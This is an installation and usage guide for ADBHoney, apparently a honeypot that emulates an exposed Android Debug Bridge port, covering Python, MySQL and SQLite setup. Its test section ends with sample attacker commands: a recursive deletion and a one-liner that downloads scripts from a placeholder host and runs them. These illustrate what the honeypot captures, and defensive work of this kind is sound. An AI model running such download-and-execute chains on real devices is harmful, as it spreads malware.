 # Installation guide (on Ubuntu 16.04): 

1) (Optional) Create user *adbh*  (not root user) and switch to it   
``` $ sudo su - adbh ```   
2) Create virtual envirionment (Python 2.7.\*) with name *adbh_env*    
``` $ virtualenv --python=python2 adbh_env ```   
``` $ cd adbh_env/ ```   
3) Activate the envirionment   
``` $ source ./bin/activate ```  
``` $ cd .. ```    
4) Create folder *adbh_project* inside *adbh_env*   
``` $ mkdir adbh_project ```   
``` $ cd adbh_project/ ```   
5) Clone the project from the repository   
``` $ git https://github.com/venetay/ADBHoney.git . ```   
6) Install requitements   
	(Dependance: sudo apt-get install libmysqlclient-dev python-dev)
``` $ pip install -r requirements.txt ```   
7) Start
``` $ python adbhoney.py ``` 

============================================================

## MySQL Configuration 

First create an empty database named 'adbhoney'.
```
$ mysql -u root -p
CREATE DATABASE adbhoney;
```

Create a adbhoney user account for the database and grant access privileges:

**All Privileges:**

```
GRANT ALL ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';

```

**Restricted Privileges:**

Alternatively you can grant the adbhoney account with less privileges. The following command grants the account with the
bare minimum required for the output logging to function:

```
GRANT INSERT, SELECT, UPDATE ON adbhoney.* TO 'adbhoney'@'localhost' IDENTIFIED BY 'PASSWORD HERE';
```

Apply the privilege settings and exit mysql.
```
FLUSH PRIVILEGES;
exit
```

Next, log into the MySQL database using the adbhoney account to verify proper access privileges and load the database schema provided in the docs/sql/ directory:
```
$ cd adbhoney/docs/sql/
$ mysql -u adbhoney -p
USE adbhoney;
source mysql.sql;
exit
```

# MySQL plugin uses geolocation. 
1) Download GeoLite2-ASN.mmdb and GeoLite2-City.mmdb   
``` https://dev.maxmind.com/geoip/geoip2/geolite2/ ```   
2) Set the right location of the databases used for geolocation in the config file 
 

==================================================


## SQLite3 logging module

Logging to SQLite3 database. To init the database, use the script
docs/sql/sqlite3.sql:
     sqlite3 <db_file> < docs/sql/sqlite3.sql


===================================================
# Start and test example 

* test adb commands 

```
sudo apt install adb 
// sudo apt install android-tools-adb
```

---------------------------------------------------------------------

terminal1:   
``` .../ADBHoney$ python adbhoney.py ```

--------------------------------------------------------------------- 

terminal2:   
``` $ nmap 127.0.0.1 ```

```
$ adb connect 127.0.0.1
$ adb connect 127.0.0.1:5555  
//* daemon not running. starting it now on port 5037 *
//* daemon started successfully *
//connected to 127.0.0.1:5555
```

```
$ adb devices
//List of devices attached 
//emulator-5554	device
//127.0.0.1:5555	device
```

```
$ adb -s 127.0.0.1:5555  push -p filename /sdcard/
//Transferring: 5078064/5078064 (100%)
//4805 KB/s (5078064 bytes in 1.031s)
```

``` $ adb -s 127.0.0.1:5555 shell ```

``` $ adb -s 127.0.0.1:5555 shell "rm -rf /data/local/tmp/*" ```

```
$ adb -s 127.0.0.1:5555 shell "cd /data/local/tmp;wget http://yyy.yyy.yyy.yyy/br -O- >br;sh br;busybox wget http://yyy.yyy.yyy.yyy/r -O- >r;sh r;curl http://yyy.yyy.yyy.yyy/c >c;sh c;busybox curl http://yyy.yyy.yyy.yyy/bc >bc;sh bc"
```
